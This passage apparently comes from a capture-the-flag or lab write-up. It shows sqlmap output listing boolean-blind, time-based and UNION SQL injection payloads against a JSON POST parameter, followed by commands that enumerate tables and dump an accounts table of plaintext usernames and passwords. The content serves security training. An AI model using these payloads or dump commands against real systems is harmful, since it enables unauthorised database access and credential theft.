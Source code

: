 ```bash
sqlmap identified the following injection point(s) with a total of 184 HTTP(s) requests:
---
Parameter: JSON id ((custom) POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: {"timeout_seconds":5,"metadata":[{"name":"token","value":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYnJhdm9zZWMiLCJleHAiOjE2ODk2NzY5MTZ9.Xjjbl5fxRY8RORL5ZbuhQX9Ml-QZUwd5zVYUueIa9RI"}],"data":[{"id":"-4378 OR 7219=7219"}]}

    Type: time-based blind
    Title: SQLite > 2.0 OR time-based blind (heavy query - comment)
    Payload: {"timeout_seconds":5,"metadata":[{"name":"token","value":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYnJhdm9zZWMiLCJleHAiOjE2ODk2NzY5MTZ9.Xjjbl5fxRY8RORL5ZbuhQX9Ml-QZUwd5zVYUueIa9RI"}],"data":[{"id":"321 OR 1706=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2))))--"}]}

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: {"timeout_seconds":5,"metadata":[{"name":"token","value":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYnJhdm9zZWMiLCJleHAiOjE2ODk2NzY5MTZ9.Xjjbl5fxRY8RORL5ZbuhQX9Ml-QZUwd5zVYUueIa9RI"}],"data":[{"id":"321 UNION ALL SELECT CHAR(113,106,118,113,113)||CHAR(71,103,85,111,82,74,98,115,116,106,86,99,73,107,73,110,117,101,69,120,83,102,109,116,101,105,120,118,106,122,86,113,97,87,118,114,112,109,77,83)||CHAR(113,112,98,106,113)-- siAJ"}]}
---
[16:00:15] [INFO] the back-end DBMS is SQLite
```

Fetch tables

```bash
sqlmap -r getinfo.req -p id --level 5 --risk 3 --batch --tables
```

```bash
[16:02:55] [INFO] fetching tables for database: 'SQLite_masterdb'
<current>
[2 tables]
+----------+
| accounts |
| messages |
+----------+
```

Dump `accounts` table

```bash
sqlmap -r getinfo.req -p id --level 5 --risk 3 --batch -T accounts --dump
```

```bash
Table: accounts
[2 entries]
+------------------------+----------+
| password               | username |
+------------------------+----------+
| admin                  | admin    |
| HereIsYourPassWord1431 | sau      |
+------------------------+----------+
```
